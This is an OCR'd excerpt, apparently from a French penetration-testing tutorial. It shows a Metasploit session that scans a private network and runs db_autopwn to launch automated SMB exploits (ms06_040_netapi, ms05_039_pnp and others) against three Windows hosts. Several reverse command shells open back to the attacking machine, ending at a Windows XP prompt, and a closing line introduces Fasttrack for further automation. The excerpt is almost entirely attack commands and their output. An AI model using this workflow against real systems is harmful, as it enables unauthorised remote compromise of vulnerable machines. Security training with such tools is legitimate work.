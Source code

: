 ```text
Interesting ports on 172.16.2.206:  
PORT STATE SERVICE  
445/tcp open microsoft-ds  
Nmap finished: 256 IP addresses (4 hosts up) scanned in 15.323 
seconds  
msf > db_hosts  
[*] Host: 172.16.2.202  
[*] Host: 172.16.2.203  
[*] Host: 172.16.2.206  
msf > db_autopwn -p -e -r  
[*] Launching auxiliary/dos/windows/smb/ms05_047_pnp (1/42) 
against 172.16.2.206:445...  
[*] Launching exploit/windows/smb/ms06_066_nwwks (2/42) against 
172.16.2.203:445...  
[*] Started reverse handler  
[*] Launching exploit/windows/smb/ms06_040_netapi (3/42) against 
172.16.2.202:445...[*] Connecting to the SMB service...  
[*] Started reverse handler  
[*] Launching exploit/windows/smb/ms03_049_netapi (5/42) against 
172.16.2.203:445...  
[*] Connecting to the SMB service...  
[*] Launching exploit/windows/smb/ms05_039_pnp (10/42) against 
172.16.2.206:445...  
[*] Bound to 3919286a-b10c-11d0-9ba8-  
00c04fd92ef5:0.0@ncacn_np:172.16.2.202[\lsarpc]...  
[*] Getting OS information...  
[*] Command shell session 2 opened (172.16.2.1:8368 -> 
172.16.2.202:1059)  
[*] Trying to exploit Windows 5.1  
[*] Command shell session 3 opened (172.16.2.1:22349 -> 
172.16.2.206:1041)  
msf > sessions -l  
Active sessions  
===============  
Id Description Tunnel  
-- -----------  
------  
1 Command shell 172.16.2.1:23443 -> 172.16.2.202:1058  
2 Command shell 172.16.2.1:12927 -> 172.16.2.203:1099  
3 Command shell 172.16.2.1:37995 -> 172.16.2.206:1040  
msf > sessions -i 1  
[*] Starting interaction with 1...  
Microsoft Windows XP [Version 5.1.2600]  
(C) Copyright 1985-2001 Microsoft Corp.  
C:\WINDOWS\system32>
```

#### f. Fasttrack

Fasttrack permet d’automatiser même db\_autopwn, nous pourrons donc le tester.
